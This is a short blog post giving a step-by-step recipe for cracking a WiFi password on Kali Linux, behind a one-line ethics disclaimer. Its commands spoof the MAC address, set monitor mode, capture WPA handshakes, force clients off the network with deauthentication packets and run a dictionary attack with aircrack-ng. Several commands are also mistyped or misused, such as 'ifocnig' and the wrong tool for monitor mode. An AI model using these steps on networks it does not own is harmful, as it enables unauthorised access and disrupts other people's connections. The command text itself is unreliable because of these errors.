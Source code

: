 ```yaml
---
layout: post
title: Decrypt Wifi Password?
categories: [Computer Network]
image: wifi.png
description: How to decrypt wifi password | hack wifi password | Kali Linux | 
---
```


There are various algorithms implemented to encrypt passwords. 
It's not ethical to steal passwords of any kind, without owner's consent. However
we can setup our own environment to do some ethical practises and there are tools available for the purpose.<br>

<!--continue-->

Kali Linux is one the OS preferred for penetration testing. We can use programs in Kali OS to 
experiment with vulnerable wifi passwords in our network.<br>

<li> Change MAC address    
  <pre>macchanger  --random wlan0</pre>
    <p> MAC(Media Access Control) Address is loaded into RAM during boot and this can be changed.<br>
    </p>
</li>
<li>Set Up Monitor Mode to Wireless Interface

<p>Change the defualt 'Managed Mode' of our Wireless Interface to 'Monitor Mode'. This enables
us to collect all the packets from the router.</p>
<pre>iwconfig wlan0
ifconfig wlan0 down
ifconfig wlan0 mode monitor
ifocnig wlan0 up
iwconfig wlan0</pre>

</li>

<li>Catch Enough handshakes
<pre>
#get the required AP,channel, bssid using program airmon-ng on wireless interface
airmon-ng wlan0

#Capture every packets sent by AP on our interface usng program airodump-ng
airodump-ng --channel [channel] --bssid [bssid]  --write [filename] [interface]

#Deauthenticate client or/and wait for client to reconnect to wifi
aireplay-ng --deauth[number of deauth packets] -a [AP] -c[target] [interface]
</pre>
</li>

<li>Crack the Key
<pre>#Download the world list file and use aicrack-ng tool to crack the key
aircrack-ng [handshake filename] --w [wordlist] [interface]</pre>
</li>


<p> Some common wireless encryptions today are WEP, WPA, WPA2. WPA/WPA2 is considered as secure one. With WPS feautre enabled, it might be easier to crack the wifi. And if not, the only way is the dictionary  attack which involves comparing the dictionay(list of passwords) with handshake file.</p>